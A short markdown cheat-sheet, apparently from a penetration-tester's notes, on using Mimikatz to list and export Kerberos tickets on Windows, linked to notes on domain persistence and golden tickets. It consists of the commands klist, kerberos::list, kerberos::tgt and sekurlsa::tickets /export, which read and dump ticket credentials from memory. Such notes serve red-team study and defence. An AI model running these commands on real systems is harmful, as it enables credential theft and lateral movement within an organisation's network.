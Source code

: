 # Mimikatz

## Extracting Tickets

Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

Extract tickets

```
mimikatz # sekurlsa::tickets /export
```

---
## References

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Domain Persistence/Create Ticket/Golden Ticket/C2 Frameworks/Metasploit]]